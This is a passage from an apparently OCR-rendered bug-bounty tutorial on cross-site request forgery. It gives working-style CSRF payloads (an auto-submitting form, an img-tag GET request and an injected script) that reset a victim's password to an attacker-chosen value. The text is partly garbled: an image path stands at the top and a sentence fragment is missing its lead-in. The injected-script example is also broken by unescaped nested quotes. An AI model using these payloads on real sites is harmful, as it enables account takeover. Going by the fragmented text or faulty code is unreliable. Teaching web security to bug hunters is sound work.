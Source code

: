 After that, the attacker is free to log in as any of the affected victims with the newly assigned password `this_account_is_now_mine`.

---

### Delivering the CSRF Payload

The first and simplest option of delivering a CSRF payload is to trick users into visiting an external malicious site. For example, let’s say [`example.com`](http://example.com/)
has a forum that users frequent. In this case, attackers can post a link like this on the forum to encourage users to visit their page:

Visit this page to get a discount on your [`example.com`](http://example.com/) subscription: [`https://example.attacker.com`](https://example.attacker.com/)

And on [example.attacker.com](http://example.attacker.com/), the attacker can host an auto-submitting form to execute the CSRF:

```jsx
<html>
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```

for example, as an `image` posted to a forum. This way, any user who views the forum page `would be affected:`

```jsx
<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">
```

In the malicious script, the attacker can include code that sends the CSRF payload:

```jsx
<script>
 document.body.innerHTML += "
 <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
<input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>";
 document.getElementById("csrf-form").submit();
</script>
```

---

# `Finding Your First CSRF!`

Armed with this knowledge about CSRF bugs, bypassing CSRF protection, and escalating CSRF vulnerabilities, you’re now ready to look for your first
CSRF vulnerability! Hop on a bug bounty program and find your first CSRF by following the steps covered in this chapter:

